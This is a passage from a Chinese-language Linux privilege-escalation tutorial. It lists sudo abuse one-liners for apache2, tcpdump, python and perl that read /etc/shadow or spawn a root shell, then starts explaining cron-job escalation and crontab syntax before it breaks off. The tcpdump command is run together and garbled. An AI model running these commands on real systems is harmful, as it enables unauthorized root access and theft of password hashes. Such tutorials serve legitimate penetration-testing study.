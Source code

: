 **apache**

仅可查看文件，不能弹 shell：

apache2 -f /etc/shadow

**tcpdump**

echo $’id\ncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

**python/perl/ruby/lua/php/etc**

**python**

python -c “import os;os.system(‘/bin/bash’)”

**perl**

exec “/bin/bash”;

**0x007 linux 提权—利用定时任务（Cron jobs）**
------------------------------------

如果未正确配置 Cronjob，则可以利用该 Cronjob 获得 root 特权。

1. Cronjob 中是否有可写的脚本或二进制文件？  
2. 我们可以覆盖 cron 文件本身吗？  
3. cron.d 目录可写吗？

Cronjob 通常以 root 特权运行。如果我们可以成功篡改 cronjob 中定义的任何脚本或二进制文件，那么我们可以以 root 特权执行任意代码。

### 什么是 Cronjob？

Cron Jobs 被用于通过在服务器上的特定日期和时间执行命令来安排任务。它们最常用于 sysadmin 任务，如备份或清理 / tmp / 目录等。Cron 这个词来自 crontab，它存在于 / etc 目录中。

例如：在 crontab 内部，我们可以添加以下条目，以每 1 小时自动打印一次 apache 错误日志。

<table><tbody><tr><td width="253" valign="top">1</td><td width="253" valign="top">1&nbsp;0&nbsp;*&nbsp;*&nbsp;*&nbsp;printf&nbsp;“”&gt;&nbsp;/var/log/apache/error_log</td></tr></tbody></table>

前五个数字值表示执行 cronjob 的时间。现在让我们了解五个数字值。

*   分钟–第一个值表示介于 0 到 59 之间的分钟范围，而 * 表示任何分钟。
    
*   小时–第二个值表示小时范围在 0 到 24 之间，* 表示任何小时。
    
*   月中的某天–第三个值表示月中的某日，范围是 1 到 31，* 表示任何一天。
    
*   月–第四个值表示 1 到 12 之间的月份范围，* 表示任何月份。
    
*   星期几–第五个值表示从星期天开始的星期几，介于 0 到 6 之间，* 表示星期几。
    

**简而言之呢，**crontab **就是一个自定义定时器。**

### Cron 特权升级概述

cron 守护程序计划在指定的日期和时间运行命令。它与特定用户一起运行命令。因此，我们可以尝试滥用它来实现特权升级。

滥用 cron 的一个好方法是，

